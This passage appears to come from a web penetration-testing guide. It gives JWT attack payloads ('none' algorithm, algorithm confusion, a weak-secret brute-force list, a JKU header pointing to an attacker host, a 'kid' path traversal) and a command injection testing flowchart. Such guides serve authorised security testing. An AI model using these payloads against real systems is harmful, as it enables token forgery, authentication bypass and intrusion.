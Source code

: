 ```mermaid
    Z --> BB[Document Findings]
    AA --> CC[Report Generation]
    BB --> CC
```

### JWT Attack Techniques

```javascript
// None Algorithm Attack
{
  "alg": "none",
  "typ": "JWT"
}

// Algorithm Confusion (RS256 to HS256)
// Use public key as HMAC secret

// Weak Secret Brute Force
const secrets = ['secret', '123456', 'password', 'jwt_secret'];

// JKU Header Manipulation
{
  "alg": "RS256",
  "jku": "http://attacker.com/jwks.json"
}

// Kid Parameter Injection
{
  "alg": "HS256",
  "kid": "../../../public/key.pem"
}
```

---

## 🔧 Additional Attack Vectors

### Command Injection

```mermaid
flowchart TD
    A[Command Injection Testing] --> B[Identify Input Parameters]
    B --> C[Test Basic Payloads]
    C --> D{Command Executed?}
    D -->|Yes| E[Confirm Vulnerability]
    D -->|No| F[Try Bypass Techniques]
    F --> G[Filter Evasion]
    G --> H{Bypass Successful?}
    H -->|Yes| E
    H -->|No| I[Document Findings]
    E --> J[Privilege Escalation]
    J --> K[System Enumeration]
    K --> L[Impact Assessment]
```
